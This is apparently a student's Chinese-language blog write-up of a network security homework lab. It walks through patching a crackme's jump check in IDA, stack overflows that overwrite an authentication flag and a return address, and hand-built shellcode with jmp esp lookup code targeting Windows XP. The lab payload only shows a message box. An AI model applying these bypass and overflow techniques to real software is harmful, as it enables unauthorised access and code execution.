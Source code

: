 ```yaml
---
title: 网安作业3
date: 2019-11-19 22:26:13
tags: [作业]
categories: 作业
---
```


网安作业3.

<!--more-->

### crackme:

打开IDA找到判断跳转语句位置

![MReyX4.png](https://s1.ax1x.com/2019/11/19/MReyX4.png)

修改跳转指令

![MReocD.png](https://s1.ax1x.com/2019/11/19/MReocD.png)

应用到程序

![MReOAI.png](https://s1.ax1x.com/2019/11/19/MReOAI.png)

运行结果：

正确密码显示错误，错误密码显示正确。

![MRmkEn.png](https://s1.ax1x.com/2019/11/19/MRmkEn.png)

### overflow(1):

首先输入7个q看一下栈情况

![Mqgxu8.png](https://s2.ax1x.com/2019/11/23/Mqgxu8.png)

authenticated的值是1

输入8个q

没有执行前，authenticated的值还是1

![Mq2JKK.png](https://s2.ax1x.com/2019/11/23/Mq2JKK.png)

执行以后，值被覆盖为0

![Mq2UVe.png](https://s2.ax1x.com/2019/11/23/Mq2UVe.png)

### overflow(2):

将跳转地址覆盖为验证通过的地址

![Mq2qZF.png](https://s2.ax1x.com/2019/11/23/Mq2qZF.png)

用ultraedit编辑password文件，任意填充8字符覆盖password，4字符覆盖authenticated，4字符覆盖上一栈帧的ebp,填入4个字符返回地址。

![MqRldg.png](https://s2.ax1x.com/2019/11/23/MqRldg.png)

再运行程序

![MqRweU.png](https://s2.ax1x.com/2019/11/23/MqRweU.png)

### overflow(3):

程序与2的区别是增加了头文件windows.h，buff由8字节变成44字节，有足够空间填入代码。

找到buff地址和返回地址

![MLYJ5F.png](https://s2.ax1x.com/2019/11/24/MLYJ5F.png)

找到messageboxA入口地址

```c++
#include <stdio.h>
#include <windows.h>
 
typedef void (*FuncPointer)(LPTSTR);  // 函数指针  
 
int main()
{   
    HINSTANCE LibHandle;
    FuncPointer GetAddr;
    // 加载成功后返回库模块的句柄 
    LibHandle = LoadLibrary("user32");  
    printf("user32 LibHandle = 0x%X\n", LibHandle);
    // 返回动态链接库(DLL)中的输出库函数地址
    GetAddr=(FuncPointer)GetProcAddress(LibHandle,"MessageBoxA");   
    printf("MessageBoxA = 0x%X\n", GetAddr);
    return 0;
}
```

![MLt0zj.png](https://s2.ax1x.com/2019/11/24/MLt0zj.png)

构造password

| 机器码     | 汇编指令           | 解释                |
| ---------- | ------------------ | ------------------- |
| 33DB       | XOR EBX,EBX        | 将EBX寄存器置为NULL |
| 53         | PUSH EBX           |                     |
| 686A6F6B65 | PUSH 656b6f6a      | Thisjoke            |
| 6854686973 | PUSH 73696854      |                     |
| 8BC4       | MOV EAX,ESP        | EAX里存入字符串指针 |
| 53         | PUSH EBX           |                     |
| 50         | PUSH EAX           |                     |
| 50         | PUSH EAX           |                     |
| 53         | PUSH EBX           |                     |
| B8301D3148 | MOV EAX,0x48311D30 | 调用MessageBoxA     |
| FFD0       | CALL EAX           |                     |

![MLLowj.png](https://s2.ax1x.com/2019/11/24/MLLowj.png)

由于win10保护机制太强，没有办法显示messagebox

换到xp系统上实现

先找到messageboxA的入口地址

![MLOene.png](https://s2.ax1x.com/2019/11/24/MLOene.png)

再找到buff起始地址

![MLO8c8.png](https://s2.ax1x.com/2019/11/24/MLO8c8.png)

![MLON7j.png](https://s2.ax1x.com/2019/11/24/MLON7j.png)

![MLOsjU.png](https://s2.ax1x.com/2019/11/24/MLOsjU.png)

定位shellcode，找jmp esp指令

```c++
#include <windows.h>
#include <stdio.h>
#define DLL_NAME "user32.dll"
main()
{
    BYTE* ptr;
    int position,address;
    HINSTANCE handle;
    BOOL done_flag = FALSE;
    handle=LoadLibrary(DLL_NAME);
    if(!handle)
    {
        printf(" load dll erro !");
        exit(0);
    }

    ptr = (BYTE*)handle;

    for(position = 0; !done_flag; position++)
    {
        try
        {
            if(ptr[position] == 0xFF && ptr[position+1] == 0xE4)
            {
                //0xFFE4 is the opcode of jmp esp
                int address = (int)ptr + position;
                printf("OPCODE found at 0x%x\n",address);
            }
        }
        catch(...)
        {
            int address = (int)ptr + position;
            printf("END OF 0x%x\n", address);
            done_flag = true;
        }
    }
}
```

![MLzBOf.png](https://s2.ax1x.com/2019/11/24/MLzBOf.png)

定位exitprocess入口地址

```c++
#include <stdio.h>
#include <windows.h>
 
typedef void (*FuncPointer)(LPTSTR);  // 函数指针  
 
int main()
{   
    HINSTANCE LibHandle;
    FuncPointer GetAddr;
    // 加载成功后返回库模块的句柄 
    LibHandle = LoadLibrary("kernel32");  
    printf("kernel32 LibHandle = 0x%X\n", LibHandle);
    // 返回动态链接库(DLL)中的输出库函数地址
    GetAddr=(FuncPointer)GetProcAddress(LibHandle,"ExitProcess");   
    printf("ExitProcess = 0x%X\n", GetAddr);
    return 0;
}
```

![MLzqh9.png](https://s2.ax1x.com/2019/11/24/MLzqh9.png)

修改password文件

| 机器码     | 汇编指令           | 解释                |
| ---------- | ------------------ | ------------------- |
| 33DB       | XOR EBX,EBX        | 将EBX寄存器置为NULL |
| 53         | PUSH EBX           |                     |
| 686A6F6B65 | PUSH 656b6f6a      | Thisjoke            |
| 6854686973 | PUSH 73696854      |                     |
| 8BC4       | MOV EAX,ESP        | EAX里存入字符串指针 |
| 53         | PUSH EBX           |                     |
| 50         | PUSH EAX           |                     |
| 50         | PUSH EAX           |                     |
| 53         | PUSH EBX           |                     |
| B8EA07D577 | MOV EAX,0x77D507EA | 调用MessageBoxA     |
| FFD0       | CALL EAX           |                     |
| 53         | PUSH EBX           |                     |
| B8A2BF817C | MOV EAX,0x7C81BFA2 | 调用exit（0）       |
| FFD0       | CALL EAX           |                     |

![MOC6uq.png](https://s2.ax1x.com/2019/11/24/MOC6uq.png)

现在程序就可以正常退出

![MOC58J.png](https://s2.ax1x.com/2019/11/24/MOC58J.png)